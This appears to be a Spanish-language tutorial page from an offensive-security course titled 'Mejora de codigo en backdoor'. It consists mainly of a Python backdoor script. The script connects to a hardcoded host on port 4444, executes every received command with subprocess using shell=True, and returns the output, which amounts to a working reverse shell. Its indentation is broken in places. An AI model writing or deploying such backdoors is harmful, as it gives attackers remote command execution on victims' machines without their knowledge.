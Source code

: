 ![mejora de listener parrot](https://user-images.githubusercontent.com/97669969/157429636-e6980d52-9f1d-4036-998d-9730229f04fa.png)
* Backdoor corriendo, vamos a mejorarlo tambien.




# MEJORA DE CODIGO EN BACKDOOR 

 

* backdoor.py 

 
```bash
import socket 

import subprocess 

 
class Backdoor: 

 
 

    def __init__(self,ip,port): 

self.connection = socket.socket(socket.AF_INET,socket.SOCK_STREAM) 

self.connection.connect((ip,port)) 

self.connection.send("\n [+] Conexion establecida \n".encode()) 

 
 
 

    def ejecutar_comando(self,comando): 

return subprocess.check_output(comando,shell=True) 

 
 
 

    def run(self): 

while True: 

 
 

comando = self.connection.recv(1024) 

resultado_comando = self.ejecutar_comando(comando.decode("utf-8")) 

self.connection.send(resultado_comando) 

           self.connection.close() 

 

backdoor = Backdoor("192.168.1.133", 4444) 

backdoor.run() 
```